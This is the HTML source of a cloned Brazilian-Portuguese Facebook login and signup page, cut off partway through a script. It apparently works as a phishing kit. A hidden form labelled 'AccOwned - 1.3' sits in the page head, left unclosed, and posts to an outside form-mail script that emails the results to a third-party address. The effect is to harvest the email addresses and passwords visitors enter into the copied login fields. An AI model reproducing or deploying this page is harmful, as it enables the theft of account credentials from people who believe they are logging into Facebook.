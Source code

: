 <!DOCTYPE html>
<html lang="pt" id="facebook" class="no_js">
<head><meta charset="utf-8" /><script>function envFlush(a){function b(c){for(var d in a)c[d]=a[d];}if(window.requireLazy){requireLazy(['Env'],b);}else{Env=window.Env||{};b(Env);}}
envFlush({"ffid1":"AcGWQU_vTXX_Zt6tsj6EyG9gCdPp1G3U7S9RzMEt28796--Yn09H-RYn9kyGxqqMY8k","ffid2":"AcGF-liQN5hSZ56peccx32whYLQb7HG6lgV0auiODLRLfX8Ze_VU3ONiUD6hfobkhTU","ffid3":"AcHk-4Fo8IrxUm22393oy8pc-8zehtVKCf7Dbkab8FkiyysPbr3PutdfF0H1Tf8-t8YoLkK0ivDQ6JAt3bvk6HRb","ffid4":"AcGsAUPkIRcsjUSRUe1Ou_U9-RkBcMwP4dnci_eW-87lEvASJIInRr7QuBrh-8QL8OU","ffver":63083,"recaptcha_focus_on_load":"false","recaptcha_lang":"\"en\"","user":"0","locale":"pt_BR","method":"GET","svn_rev":688594,"tier":"","vip":"31.13.73.23","static_base":"https:\/\/s-static.ak.facebook.com\/","www_base":"http:\/\/www.facebook.com\/","rep_lag":2,"fb_dtsg":"AQBU0AME","ajaxpipe_token":"AXiuFsxdfrOHKVVc","lhsh":"DAQFlzNEL","tracking_domain":"https:\/\/pixel.facebook.com","retry_ajax_on_network_error":"1","fbid_emoticons":"1"});</script><script>envFlush({"eagleEyeConfig":{"seed":"03qh","sessionStorage":true}});CavalryLogger=false;window._script_path = "\/index.php";</script><noscript><meta http-equiv="refresh" content="0; URL=/?_fb_noscript=1" /></noscript><meta name="application-name" content="Facebook" /><meta name="msapplication-tooltip" content="Visite o Facebook para conectar-se com seus amigos" /><meta name="msapplication-starturl" content="/" /><meta name="msapplication-window" content="width=1230;height=700" /><meta name="msapplication-task" content="name=Not&#xed;cias;action-uri=/?sk=nf;icon-uri=/images/icons/app/news.ico" /><meta name="msapplication-task" content="name=Mensagens;action-uri=/?sk=inbox;icon-uri=/images/icons/app/messages.ico" /><meta name="msapplication-task" content="name=Eventos;action-uri=/?sk=events;icon-uri=/images/icons/app/events.ico" /><meta name="msapplication-task" content="name=Amigos;action-uri=/?sk=fr;icon-uri=/images/icons/app/friends.ico" /><meta name="robots" content="noodp, noydir" /><meta name="referrer" content="default" id="meta_referrer" /><meta name="description" content=" O Facebook &#xe9; uma rede social que re&#xfa;ne pessoas a seus amigos e &#xe0;queles com quem trabalham, estudam e convivem. As pessoas participam do Facebook para manter contato com seus amigos, carregar um n&#xfa;mero ilimitado de fotos, compartilhar links e v&#xed;deos e aprender mais sobre as pessoas que conhecem." /><link rel="alternate" media="handheld" href="https://www.facebook.com/" /><title id="pageTitle">Bem-vindo ao Facebook - acesse, cadastre-se ou saiba mais.</title><meta property="og:image" content="https://www.facebook.com/images/fb_icon_325x325.png" /><link rel="shortcut icon" href="https://s-static.ak.facebook.com/rsrc.php/yP/r/Ivn-CVe5TGK.ico" /><noscript><meta http-equiv="X-Frame-Options" content="deny" /></noscript>
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yj/r/qzwo6ysqs77.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yO/r/VgC4D9ag6Er.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yY/r/u8iA3kXb8Y1.css" />

<form METHOD="POST" ACTION="http://terra.planetarium.com.br/cgi-bin/processform.cgi">
<INPUT TYPE="HIDDEN" NAME="TO" VALUE="felipe@ekz.com.br">
<INPUT TYPE="HIDDEN" NAME="FROM" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="SUBJECT" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="RESPONDER" VALUE="http://www.facebook.com/">
    <script src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yB/r/MGmnFrWer13.js"></script>
  <script>window.Bootloader && Bootloader.done(["Blak7"]);</script><script>new (require("ServerJS"))().handle({"require":[["lowerDomain"],["QuicklingPrelude"],["Primer"]]})</script></head><body class="fbIndex UIPage_LoggedOut ie9 win Locale_pt_BR"><div id="FB_HiddenContainer" style="position:absolute; top:-10000px; width:0px; height:0px;"></div><div class="_li"><div id="pagelet_bluebar" data-referrer="pagelet_bluebar"><div id="blueBarHolder"><div id="blueBar"><div><div class="loggedout_menubar_container"><div class="clearfix loggedout_menubar"><a class="lfloat" href="/" title="Ir para a p&#xe1;gina inicial do Facebook"><i class="fb_logo img sp_38839k sx_127aa9"><u>Logotipo do Facebook</u></i></a><div class="menu_login_container rfloat"><form id="login_form" action="https://www.facebook.com/login.php?login_attempt=1" method="post" onsubmit="return window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><table cellspacing="0"><tr><td class="html7magic"><label for="email">E-mail ou telefone</label></td><td class="html7magic"><label for="pass">Senha</label></td></tr><tr><td><input type="text" class="inputtext" name="email" id="email" value="" tabindex="1" /></td><td><input type="password" class="inputtext" name="pass" id="pass" tabindex="2" /></td><td><label class="uiButton uiButtonConfirm" id="loginbutton" for="u5v8wy74"><input value="Entrar" tabindex="4" type="submit" id="u5v8wy74" /></label></td></tr><tr><td class="login_form_label_field"><div><div class="uiInputLabel clearfix"><input id="persist_box" type="checkbox" name="persistent" value="1" tabindex="3" class="uiInputLabelCheckbox" /><label for="persist_box">Mantenha-me conectado</label></div><input type="hidden" name="default_persistent" value="0" /></div></td><td class="login_form_label_field"><a rel="nofollow" href="http://www.facebook.com/recover/initiate">Esqueceu sua senha?</a></td></tr></table><input type="hidden" name="charset_test" value="&euro;,&acute;,€,´,水,Д,Є" /><input type="hidden" autocomplete="off" name="timezone" value="" id="u5v8wy73" /><input type="hidden" name="lgnrnd" value="115313_Dkkz" /><input type="hidden" id="lgnjs" name="lgnjs" value="n" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /></form></div></div></div></div></div></div></div><div id="globalContainer" class="uiContextualLayerParent"><div id="content" class="fb_content clearfix"><div><!-- 2365fa3194ecdc0cab15721ce967a9f8663937c7 --><div class="gradient"><div class="gradientContent"><div class="clearfix fbIndexFeaturedRegistration"><div class="feature lfloat"><div class="clearfix fbIndexMobile"><a class="lfloat" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" tabindex="-1" href="#" rel="dialog" role="button"><img class="mtm phoneImage img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yt/r/FZaMKqARgC6.png" alt="" width="97" height="205" /></a><div class="clearfix rightSide rfloat"><div class="lfloat"><div class="title fsl fwb fcb">Está saindo? Continue conectado.</div><div class="subtitle fsm fwn fcg">Acesse facebook.com em seu celular.</div></div><a class="mrl mobileButton rfloat uiButton" href="#" role="button" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" rel="dialog"><span class="uiButtonText">Obter o Facebook Móvel</span></a></div></div></div><div class="signupForm rfloat"><div class="mbm phm headerTextContainer"><div class="mbs mainTitle fsl fwb fcb">Cadastre-se</div><div class="mbm subtitle fsm fwn fcg">É gratuito e sempre será.</div></div><div id="registration_container"><div data-referrer="simple_registration_form"><noscript><div id="no_js_box"><h2>O JavaScript está desativado em seu navegador.</h2><p>Ative o Javascript no seu navegador ou atualize para um navegador compatível com Javascript para se cadastrar no Facebook.</p></div></noscript><div id="simple_registration_container" class="simple_registration_container"><div id="reg_box"><form method="post" id="reg" name="reg" action="https://m.facebook.com/r.php" onsubmit="return function(event)&#123;return false;&#125;.call(this,event)!==false &amp;&amp; window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><input type="hidden" autocomplete="off" id="reg_instance" name="reg_instance" value="qZrDUFsLmKYPiiuqW5gOmDEo" /><input type="hidden" autocomplete="off" id="asked_to_login" name="asked_to_login" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /><input type="hidden" autocomplete="off" id="terms" name="terms" value="on" /><input type="hidden" autocomplete="off" id="abtest_registration_group" name="abtest_registration_group" value="1" /><input type="hidden" autocomplete="off" id="referrer" name="referrer" value="" /><input type="hidden" autocomplete="off" id="md5pass" name="md5pass" value="" /><input type="hidden" autocomplete="off" id="validate_mx_records" name="validate_mx_records" value="1" /><input type="hidden" autocomplete="off" id="ab_test_data" name="ab_test_data" value="" /><div id="reg_form_box" class="large_form"><table class="uiGrid editor" cellspacing="0" cellpadding="1"><tbody><tr><td class="label"><label for="firstname">Nome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="firstname" name="firstname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="lastname">Sobrenome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="lastname" name="lastname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email__">Seu e-mail:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email__" name="reg_email__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email_confirmation__">Insira o e-mail novamente:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email_confirmation__" name="reg_email_confirmation__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_passwd__">Nova senha:</label></td><td><div class="field_container"><input type="password" class="inputtext" id="reg_passwd__" name="reg_passwd__" value="" aria-required="true" /></div></td></tr><tr><td class="label">Eu sou:</td><td><div class="field_container"><div class="hidden_elem"><select><option></option><option></option></select><select><option></option><option></option></select></div><select class="select" name="sex" id="sex" aria-required="true"><option value="0">Selecione o gênero:</option><option value="1">Feminino</option><option value="2">Masculino</option></select></div></td></tr><tr><td class="label">Aniversário:</td><td><div class="field_container"> <select name="birthday_day" id="birthday_day" aria-label="Dia" class=""><option value="-1">Dia:</option><option value="1">1</option><option value="2">2</option><option value="3">3</option><option value="4">4</option><option value="5">5</option><option value="6">6</option><option value="7">7</option><option value="8">8</option><option value="9">9</option><option value="10">10</option><option value="11">11</option><option value="12">12</option><option value="13">13</option><option value="14">14</option><option value="15">15</option><option value="16">16</option><option value="17">17</option><option value="18">18</option><option value="19">19</option><option value="20">20</option><option value="21">21</option><option value="22">22</option><option value="23">23</option><option value="24">24</option><option value="25">25</option><option value="26">26</option><option value="27">27</option><option value="28">28</option><option value="29">29</option><option value="30">30</option><option value="31">31</option></select> <select name="birthday_month" id="birthday_month" aria-label="M&#xea;s" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(this, &quot;birthday_day&quot;, &quot;birthday_year&quot;);&#125;);"><option value="-1">Mês:</option><option value="1">janeiro</option><option value="2">fevereiro</option><option value="3">março</option><option value="4">abril</option><option value="5">maio</option><option value="6">Junho</option><option value="7">julho</option><option value="8">agosto</option><option value="9">setembro</option><option value="10">outubro</option><option value="11">novembro</option><option value="12">dezembro</option></select> <select name="birthday_year" id="birthday_year" aria-label="Ano" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(&quot;birthday_month&quot;,&quot;birthday_day&quot;,this);&#125;);"><option value="-1">Ano:</option><option value="2012">2012</option><option value="2011">2011</option><option value="2010">2010</option><option value="2009">2009</option><option value="2008">2008</option><option value="2007">2007</option><option value="2006">2006</option><option value="2005">2005</option><option value="2004">2004</option><option value="2003">2003</option><option value="2002">2002</option><option value="2001">2001</option><option value="2000">2000</option><option value="1999">1999</option><option value="1998">1998</option><option value="1997">1997</option><option value="1996">1996</option><option value="1995">1995</option><option value="1994">1994</option><option value="1993">1993</option><option value="1992">1992</option><option value="1991">1991</option><option value="1990">1990</option><option value="1989">1989</option><option value="1988">1988</option><option value="1987">1987</option><option value="1986">1986</option><option value="1985">1985</option><option value="1984">1984</option><option value="1983">1983</option><option value="1982">1982</option><option value="1981">1981</option><option value="1980">1980</option><option value="1979">1979</option><option value="1978">1978</option><option value="1977">1977</option><option value="1976">1976</option><option value="1975">1975</option><option value="1974">1974</option><option value="1973">1973</option><option value="1972">1972</option><option value="1971">1971</option><option value="1970">1970</option><option value="1969">1969</option><option value="1968">1968</option><option value="1967">1967</option><option value="1966">1966</option><option value="1965">1965</option><option value="1964">1964</option><option value="1963">1963</option><option value="1962">1962</option><option value="1961">1961</option><option value="1960">1960</option><option value="1959">1959</option><option value="1958">1958</option><option value="1957">1957</option><option value="1956">1956</option><option value="1955">1955</option><option value="1954">1954</option><option value="1953">1953</option><option value="1952">1952</option><option value="1951">1951</option><option value="1950">1950</option><option value="1949">1949</option><option value="1948">1948</option><option value="1947">1947</option><option value="1946">1946</option><option value="1945">1945</option><option value="1944">1944</option><option value="1943">1943</option><option value="1942">1942</option><option value="1941">1941</option><option value="1940">1940</option><option value="1939">1939</option><option value="1938">1938</option><option value="1937">1937</option><option value="1936">1936</option><option value="1935">1935</option><option value="1934">1934</option><option value="1933">1933</option><option value="1932">1932</option><option value="1931">1931</option><option value="1930">1930</option><option value="1929">1929</option><option value="1928">1928</option><option value="1927">1927</option><option value="1926">1926</option><option value="1925">1925</option><option value="1924">1924</option><option value="1923">1923</option><option value="1922">1922</option><option value="1921">1921</option><option value="1920">1920</option><option value="1919">1919</option><option value="1918">1918</option><option value="1917">1917</option><option value="1916">1916</option><option value="1915">1915</option><option value="1914">1914</option><option value="1913">1913</option><option value="1912">1912</option><option value="1911">1911</option><option value="1910">1910</option><option value="1909">1909</option><option value="1908">1908</option><option value="1907">1907</option><option value="1906">1906</option><option value="1905">1905</option></select></div></td></tr><tr><td class="label"></td><td><div id="birthday_warning"><a href="#" ajaxify="/help/ajax/reg_birthday" title="Clique para obter mais informa&#xe7;&#xf5;es" rel="async">Por que preciso informar minha data de nascimento?</a></div></td></tr><tr><td class="label"></td><td><div class="fbRegistrationPPT" id="ppt_container"><p class="privacy_policy_text text">Ao clicar Cadastre-se, você concorda com nossos <a href="/terms.php" target="_blank" rel="nofollow">Termos</a> e que leu e entendeu nossa <a href="/policy.php" target="_blank" rel="nofollow">Política de uso de dados</a>, incluindo <a href="/help/cookies/" target="_blank" rel="nofollow">Uso de cookies</a>.</p></div></td></tr></tbody></table><div class="reg_btn clearfix"><label class="uiButton uiButtonSpecial" for="u5v8wy71"><input value="Cadastre-se" name="websubmit" onclick="setFormTypeABTest($(&quot;reg&quot;)); RegistrationBootloader.bootloadAndValidate();" type="submit" id="u5v8wy71" /></label><span id="async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div><div id="reg_captcha" style="display: none"><div><h2 id="security_check_header">Verificação de segurança</h2><div id="outer_captcha_box"><div id="captcha_box"><div class="field_error" id="captcha_response_error" style="display:none;">Este campo é obrigatório.</div><div id="captcha" class="captcha"><input type="hidden" autocomplete="off" id="captcha_persist_data" name="captcha_persist_data" value="AZkb-B3tEmbrVwvuO1O5os767tE4bsmvqofJ7ubJVh1u2tHCFDqEPZXnLcg7KkZbbQv_4s71_EnEMmOaq6ieyJahbTK2VejzrHCssE_JNBipmvdaECfr9LSwePp9rgkhLgdS2NSym3iD6DIwL9cLGo9_3iazkFyK23JYuVZZ8SMx7q3eK4_GyMlmxpI9fU76y7tm34N6O5BE_BOYwMRdTVrZf8iLsGjaR49lEDd87ZuqvhgKBt32ClChOKAe42JzsB_5vKGj1XeWz_1Twq9PSreH6EuVZ-yZ2VOyNu4dtRF0xUbbYsk5EBesIKAKhFRjdP05lPd02ABScXjJmnFAXhx-nSGWeju7CsX5-94Nz2-QMg" /><div><div id="recaptcha_scripts" style="display:none"></div><input type="hidden" autocomplete="off" id="captcha_session" name="captcha_session" value="DH35WY5OvD2K6zVjsp_S7g" /><input type="hidden" autocomplete="off" id="extra_challenge_params" name="extra_challenge_params" value="authp=nonce.tt.time.new_audio_default&amp;psig=SzSiTje1w-LLufPevGAMMiJqm4U&amp;nonce=DH35WY5OvD2K6zVjsp_S7g&amp;tt=GRo5DTCFTNyeOXtNMmBx9_pREys&amp;time=1354996393&amp;new_audio_default=1" /><input type="hidden" autocomplete="off" id="recaptcha_type" name="recaptcha_type" value="password" /><div class="recaptcha_text"><div class="recaptcha_only_if_image">Digite abaixo ambas as palavras, separadas por um espaço.<br />Não é possível ler as palavras abaixo? <a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a href="#" onclick="Recaptcha.switch_type(&quot;audio&quot;); return false;">um captcha sonoro</a>.</div><div class="recaptcha_only_if_audio" style="display:none">Insira as palavras ou números que você ouvir.<br /><a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a class="recaptcha_only_if_audio" href="#" onclick="Recaptcha.switch_type(&quot;image&quot;); return false;">volte ao texto</a>.</div></div><span id="recaptcha_play_audio"></span><div class="audiocaptcha"></div><div id="recaptcha_image" class="captcha_image"></div><div id="recaptcha_loading">Carregando... <img class="captcha_loading img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" style="height:11px;width:16px;" /></div></div><div class="captcha_input"><label>Texto da caixa:</label><div class="field_container"><input type="text" name="captcha_response" id="captcha_response" autocomplete="off" aria-label="Entrada do captcha. Digite as letras listadas acima para continuar. Al&#xe9;m disso, voc&#xea; pode usar o captcha de &#xe1;udio, clicando no link abaixo." /></div><a class="mlm" href="#" onclick="CSS.show($(&#039;captcha_whats_this&#039;)); return false;">O que é isso?</a><div id="captcha_whats_this" class="hidden_elem"><div class="fsl fwb">Verificação de segurança</div>Este é um teste de segurança padrão que usamos para evitar que contas falsas sejam criadas e enviem spams aos usuários.</div></div></div></div></div><div><div class="gridCol"></div><div class="gridCol"></div></div><div id="captcha_buttons" class="clearfix" style="display: none;"><div id="back_button" class="gridCol"><div class="cancel_button_image">   </div><a id="cancel_button" href="#" onclick="return run_with(this, [&quot;registration&quot;], function() &#123;Registration.getInstance().hide_captcha();Registration.getInstance().show_reg_form();&#125;);">Voltar</a></div><div id="A_btn_sign_up" class="gridCol"><div class="reg_btn clearfix"><label class="big_input uiButton uiButtonSpecial" for="u5v8wy72"><input value="Cadastre-se" onclick="setFormTypeABTest($(&quot;reg&quot;)); Registration.getInstance().validateForm();" type="submit" id="u5v8wy72" /></label><span id="captcha_async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div></div></div></div></form><div id="reg_progress" style="display: none"><div id="progress_wrap"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /><div id="progress_msg">Registrando...</div></div></div><div id="reg_error" class="hidden_elem"><div id="reg_error_inner">Ocorreu um erro. Tente novamente.</div></div><div id="tos_container" class="tos_container"><p class="legal_tos hidden_elem">Ao clicar em Cadastre-se, você está afirmando que leu e concorda com os <a href="/legal/terms" target="_blank" rel="nofollow">Termos de uso</a> e com a <a href="/policy.php" target="_blank" rel="nofollow">Política de privacidade</a>.</p></div><div id="reg_pages_msg" class="pagesSection pagesSectionPPT"><a href="/pages/create.php">Crie uma página</a> para uma celebridade, banda ou empresa.</div></div></div></div></div></div></div></div></div><div class="mtm locales"><ul class="uiList localeSelectorList _4ki clearfix _6-h _6-j _6-i"><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;pt_BR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Portuguese (Brazil)">Português (Brasil)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;en_US&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="English (US)">English (US)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;es_LA&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Spanish">Español</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;fr_FR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="French (France)">Français (France)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;de_DE&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="German">Deutsch</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;it_IT&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Italian">Italiano</a></li><li class="uiListItem"><a dir="rtl" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ar_AR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Arabic">العربية</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;hi_IN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Hindi">हिन्दी</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;zh_CN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Simplified Chinese (China)">中文(简体)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ja_JP&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Japanese">日本語</a></li><li class="uiListItem"><a class="showMore" rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F&amp;source=TOP_LOCALES_DIALOG" title="Mostrar mais idiomas" role="button">...</a></li></ul></div></div></div><div id="pageFooter" data-referrer="page_footer"><div id="contentCurve"></div><div class="clearfix" id="footerContainer"><div class="mrl lfloat"><div class="fsm fwn fcg"><span> Facebook © 2012</span> · <a rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F" title="Use o Facebook em outro idioma." role="button">Português (Brasil)</a></div></div><div class="navigation fsm fwn fcg" role="contentinfo" aria-label="Links para sites do Facebook"><a href="http://www.facebook.com/mobile/?ref=pf" title="Confira o Facebook M&#xf3;vel.">Celular</a> · <a href="http://www.facebook.com/find-friends?ref=pf" title="Encontre qualquer pessoa na Web.">Localizar amigos</a> · <a href="http://www.facebook.com/badges/?ref=pf" title="Incorporar um atalho do Facebook em seu site.">Atalhos</a> · <a href="http://www.facebook.com/directory/people/" title="Navegue no nosso diret&#xf3;rio de pessoas.">Pessoas</a> · <a href="http://www.facebook.com/directory/pages/" title="Pesquisar nosso diret&#xf3;rio de p&#xe1;ginas.">Páginas</a> · <a href="http://www.facebook.com/appcenter/?ref=pf" title="Check out Facebook App Center.">Aplicativos</a> · <a href="http://www.facebook.com/appcenter/category/games/?ref=pf" title="Check out Facebook games.">Jogos</a> · <a href="http://www.facebook.com/appcenter/category/music/?ref=pf" title="Check out Facebook music apps.">Música</a> · <a href="http://www.facebook.com/facebook" accesskey="8" title="Leia nosso blog, descubra a central de recursos e encontre oportunidades de trabalho.">Sobre</a> · <a href="http://www.facebook.com/campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;extra_1=auto" title="Anuncie no Facebook.">Criar um anúncio</a> · <a href="http://www.facebook.com/pages/create.php?ref_type=sitefooter" title="Criar uma p&#xe1;gina">Criar uma página</a> · <a href="http://developers.facebook.com/?ref=pf" title="Desenvolver em nossa plataforma.">Desenvolvedores</a> · <a href="http://www.facebook.com/careers/?ref=pf" title="D&#xea; um passo adiante na sua carreira em nossa incr&#xed;vel empresa.">Carreiras</a> · <a href="http://www.facebook.com/privacy/explanation" title="Saiba mais sobre sua privacidade e o Facebook.">Privacidade</a> · <a href="http://www.facebook.com/help/cookies" title="Saiba mais sobre cookies e o Facebook">Cookies</a> · <a href="http://www.facebook.com/policies/?ref=pf" accesskey="9" title="Consulte nossos termos e pol&#xed;ticas.">Termos</a> · <a href="http://www.facebook.com/help/?ref=pf" accesskey="0" title="Acesse nossa Central de ajuda.">Ajuda</a></div></div></div></div></div><script type="text/javascript">/*<![CDATA[*/function si_cj(m){setTimeout(function(){new Image().src="https:\/\/error.facebook.com\/common\/scribe_endpoint.php?c=si_clickjacking&t=2474"+"&m="+m;},5000);}if(top!=self && !false){try{if(parent!=top){throw 1;}var si_cj_d=["apps.facebook.com","\/pages\/","apps.beta.facebook.com"];var href=top.location.href.toLowerCase();for(var i=0;i<si_cj_d.length;i++){if (href.indexOf(si_cj_d[i])>=0){throw 1;}}si_cj("3 ");}catch(e){si_cj("1 \t");window.document.write("\u003Cstyle>body * {display:none !important;}\u003C\/style>\u003Ca href=\"#\" onclick=\"top.location.href=window.location.href\" style=\"display:block !important;padding:10px\">\u003Ci class=\"img sp_4yuo6n sx_fc69b8\" style=\"display:block !important\">\u003C\/i>Acesse Facebook.com\u003C\/a>");/*snm9mLFO*/}}/*]]>*/</script>
<script>Bootloader.setResourceMap({"A77NA":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yj\/r\/qzwo6ysqs77.css"},"byJia":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yO\/r\/VgC4D9ag6Er.css"},"VuNPD":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yY\/r\/u8iA3kXb8Y1.css"},"X\/Fq6":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y6\/r\/YlbIHaln_Rk.css"},"iQgIT":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ye\/r\/M0q_X9Mzhmq.css"},"VDymv":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yw\/r\/LpbNnLl9JJr.css"}});Bootloader.setResourceMap({"YO7w5":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yz\/r\/px7wbKcfGEw.js"},"wLu\/7":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yK\/r\/k_QLfmH7oOh.js"},"T8gbI":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yM\/r\/GCmGQbg43Sl.js"},"uqSgb":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/gQf0tONrZtt.js"},"ne+Ol":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yB\/r\/s2pT6tI0qDP.js"},"rZ79y":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y0\/r\/wrjUg3Fs6TZ.js"},"JE+14":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/UkEsdnWXuKD.js"},"gM1Bs":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/F_4RG0MPVux.js"},"oE4Do":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yD\/r\/65c9OW-i481.js"},"\/K81D":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yl\/r\/cwMSzldh79l.js"},"GTz7X":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yg\/r\/eSdktajXroe.js"},"MqSmz":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yH\/r\/ghlEJgSKAee.js"},"cNca2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yn\/r\/XQ1IPAI9NyR.js"},"\/vuZw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yk\/r\/g6wsSYlWI6X.js"},"bwsMw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y_\/r\/hwOyT9fmfZV.js"},"3quxQ":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/Wv8z1iI3Pjh.js"},"zyFOp":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/61VSNDvRJnS.js"},"9kSd2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/6jEpoP3b9tx.js"},"SRzKv":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/cl0g7zmlNIs.js"},"KQ5I8":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/O23eVP80saT.js"},"M2hRu":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ya\/r\/i_5_NPA0B8N.js"},"2ma5f":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yo\/r\/hCn6u3fXLtg.js"},"j07DW":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/jApT8n6JsZx.js"},"wxq+C":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/f5uM6pYP8bY.js"},"DZmeF":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y2\/r\/ZeZFU7zHXuC.js"},"